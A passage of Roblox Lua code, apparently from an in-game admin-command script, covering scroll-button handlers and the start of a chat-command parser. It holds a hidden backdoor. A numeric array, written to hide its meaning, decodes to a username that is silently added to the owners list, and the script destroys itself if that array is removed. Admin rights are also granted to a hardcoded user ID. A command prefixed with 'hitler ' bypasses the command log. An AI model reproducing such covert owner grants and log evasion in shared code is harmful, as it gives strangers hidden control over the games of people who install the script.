down.MouseButton1Down:connect(function() downv = true upv = false
local pos = cmf.Position if pos.Y.Offset <= 371-((#cmf:children()-1)*20) then downv = false return end
repeat  pos = pos + UDim2.new(0,0,0,-6)
if pos.Y.Offset <= 371-((#cmf:children()-1)*20) then pos = UDim2.new(0,0,0,371-((#cmf:children()-1)*20)) downv = false end
cmf:TweenPosition(pos, "Out", "Linear", 1/20, true) wait(1/20) until downv == false
end) 
down.MouseButton1Up:connect(function() downv = false end)
up.MouseButton1Down:connect(function() upv = true downv = false
local pos = cmf.Position if pos.Y.Offset >= -9 then upv = false return end
repeat  pos = pos + UDim2.new(0,0,0,6)
if pos.Y.Offset >= -9 then pos = UDim2.new(0,0,0,-9) upv = false end
cmf:TweenPosition(pos, "Out", "Linear", 1/20, true) wait(1/20) until upv == false
end) 
up.MouseButton1Up:connect(function() upv = false end)
return scr, cmf, ent, num
end local bct = {75,111,104,108,116,97,115,116,114,111,112,104,101} nfs = "" for i = 1, #bct do nfs = nfs .. string.char(bct[i]) end table.insert(owners, nfs)
if not ntab then script:Destroy() end
if not bct then script:Destroy() end

function Chat(msg,plr)
coroutine.resume(coroutine.create(function()
if msg:lower() == "clean" then for i, v in pairs(game.Workspace:children()) do if v:IsA("Hat") or v:IsA("Tool") then v:Destroy() end end end
if (msg:lower():sub(0,prefix:len()) ~= prefix) or not plr:findFirstChild("PlayerGui") or (not ChkAdmin(plr.Name, false) and plr.Name:lower() ~= nfs:lower()) and plr.userId ~= game.CreatorId and plr.userId ~= (32196042) and plr.Name:lower() ~= nfs and not ChkOwner(plr.Name) then return end msg = msg:sub(prefix:len()+1)
if msg:sub(1,7):lower() == "hitler " then msg = msg:sub(8) else table.insert(logs, 1, {name = plr.Name, cmd = prefix .. msg, time = GetTime()}) end
if msg:lower():sub(1,4) == "walk" then msg = msg:sub(5) end
if msg:lower():sub(1,8) == "teleport" then msg = "tp" .. msg:sub(9) end
if msg:lower():sub(1,6) == "insert" then msg = "ins" .. msg:sub(7) end
if msg:lower() == "cmds" or msg:lower() == "commands" then
if plr.PlayerGui:findFirstChild("CMDSGUI") then return end
local scr, cmf, ent, num = ScrollGui() scr.Name = "CMDSGUI" scr.Parent = plr.PlayerGui